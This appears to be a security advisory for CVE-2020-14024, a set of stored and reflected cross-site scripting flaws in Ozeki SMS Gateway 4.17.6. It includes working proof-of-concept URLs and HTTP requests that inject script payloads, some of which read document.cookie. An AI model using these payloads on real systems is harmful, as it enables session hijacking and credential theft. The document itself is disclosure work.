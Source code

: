 # CVE-2020-14024: Ozeki SMS Gateway Multiple Cross-Site Scripting

In the Ozeki SMS Gateway software, versions 4.17.6 and below, there exist multiple XSS vulnerabilities in:

<table>
	<tr>
		<th>Vulnerable Page URL/Component</th>
		<th>Vulnerable Parameter/Field</th>
	<tr>
	<tr>
		<td>Mailbox of users</td>
		<td>Receiver, Recipient</td>
	</tr>
	<tr>
		<td>/default</td>
		<td>OZFORM_GROUPNAME, listname</td>
	</tr>
	<tr>
		<td>Any URL</td>
		<td>Any GET Parameter</td>
	</tr>
</table>

These XSS issues can be exploited in order steal other the user's session cookies and later to impersonate them, to serve other users custom HTML pages or forms in order to steal their authentication credentials or to perform crypto currency mining in the context of the victim's browsers.

### Proof Of Concept:

#### Stored XSS in Originator Name

First, we install the "HTTP Server Connection" service provider:
<img src="HTTP%20Provider.png"/>

Now, we can use the following link to inject our JavaScript payload:
```
http://127.0.0.1:9400/sendMessage?recipient=%2B441234567&originator=%3c%73%76%67%20%6f%6e%6c%6f%61%64%3d%61%6c%65%72%74%28%27%58%53%53%27%29%3e&senttime=6%2F3%2F2020+12%3A56%3A54+PM&dcs=00&pid=00&msg=scxd
```
<img src="Originator%20XSS.png"/>

#### Stored XSS in Recipient Name

First, we install the "HTTP Server" module:
<img src="HTTP%20Module.png"/>

Now, we can use the following link to inject our JavaScript payload:
```
https://127.0.0.1:9443/api?action=sendmessage&username=httpserver&password=httpserver&recipient=%3Csvg/onload%3dalert(document.cookie)%3E&messagetype=SMS:TEXT&messagedata=Hello+World
```
<img src="Recipient%20XSS.png"/>

#### Stored XSS in Group Name

<img src="GroupName.png"/>

Request:
```
POST /default HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 258
Cookie: usrckenc=4ef***TRUNCATED***712 
Connection: close

mode=addgroup&layout=MENUVIEW&MENU=COMPOSEMENU2&MAIN=COMPOSE&OZFORM_GROUPNAME=%3Csvg%2Fonload%3Dalert%28document.cookie%29%3E&OZFORM_ALLOWSUBSCRIPTION=off&OZFORM_GROUPSUBSCRIBE=&OZFORM_GROUPBYE=&OZFORM_GROUPGREETING=&OZFORM_GROUPUNSUBSCRIBE=&OZFORM_BUTTON=OK
```
<img src="Group%20Name%20XSS.png"/>

#### Stored XSS in List Name

<img src="List%20Name.png"/>

Request:
```
POST /default HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Cookie: usrckenc=4ef***TRUNCATED***712

layout=MENUVIEW&MENU=ROUTINGMENU&MAIN=LISTMANAGEMENT&mode=addnow&listname=%3Csvg%2Fonload%3Dalert%28document.cookie%29%3E
```
<img src="List%20Name%20XSS.png"/>

#### Reflected XSS in GET Parameters

URL:
```
http://localhost:9501/?'-alert(1)-'
```

Response:
```
HTTP/1.1 200 OK
Content-Length: 28598
Content-Type: text/html; charset=utf-8
Last-Modified: Sun, 31 May 2020 16:22:48 GMT
Server: OzekiNG/4.17.6 Microsoft-HTTPAPI/2.0
Date: Sun, 31 May 2020 23:22:48 GMT
Connection: close

<HTML>
<HEAD>
     <TITLE>OzekiNG 4.17.6 - <IP>:9501 (admin)</TITLE>
     <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=UTF-8">
	 
***TRUNCATED***

	 <script language="javascript" type="text/javascript">
                window.onload = function(){

***TRUNCATED***
                 xmlreqGET('/ajax/ajax?component=DRIVERS&ajaxview='+ajaxviewDRIVERS+'&ajaxmode=timerupdate&ajaxotherREQUESTURL=http://127.0.0.1:9501/'-alert(1)-' &user=admin&folder=deleted&ajaxotherusrckenc=b3c9b1735a52594132c80b69ef45304c&ajaxotherREFERER=&ajaxotherlayout='-alert(1)-'&ajaxotherMAIN=USERMAIN&

***TRUNCATED***
```

<img src="GET%20XSS.png"/>
